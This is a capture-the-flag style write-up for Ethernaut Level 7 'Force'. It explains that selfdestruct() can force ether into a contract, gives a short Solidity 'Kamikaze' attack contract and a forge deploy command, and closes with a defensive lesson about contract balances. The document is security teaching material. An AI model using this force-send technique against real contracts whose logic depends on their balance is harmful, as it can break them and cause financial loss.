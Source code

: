 <div align="center">

<img src="../assets/levels/7-force.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 7 - Force</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/7-force-requirements.webp" width="800px"/>

## The hack

In this Ethernaut level, the given contract is completely empty. So how can we send any ether to it? The trick is to use the (soon to be deprecated) `selfdestruct()`, which is one way to force send ether to a contract.

When self-destructing itself, the contract must send any remaining ether to another address. This is how we can easily solve this level. We simply need to deploy a contract that self-destructs and sends its ether to the vulnerable contract.

## Solution

Write and deploy a contract that takes the address of the vulnerable contract and calls's `selfdestruct()` on itself, forwarding its ether balance to the target.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Kamikaze {
    constructor(address payable _target) payable {
        require(msg.value > 0, "Kamikaze need some ETH to attack");
        selfdestruct(_target);
    }
}
```

To deploy it with `forge` (you can also use the script `./script/7_Force.sol` or even [Remix](https://remix.ethereum.org/)):

```bash
forge create Kamikaze --private-key $PRIVATE_KEY --rpc-url sepolia --value 0.00001ether
```

## Takeaway

- `selfdestruct()` is a way to force send ether to a contract.
- <b>Never rely on a contract's balance to implement sensitive logic.</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
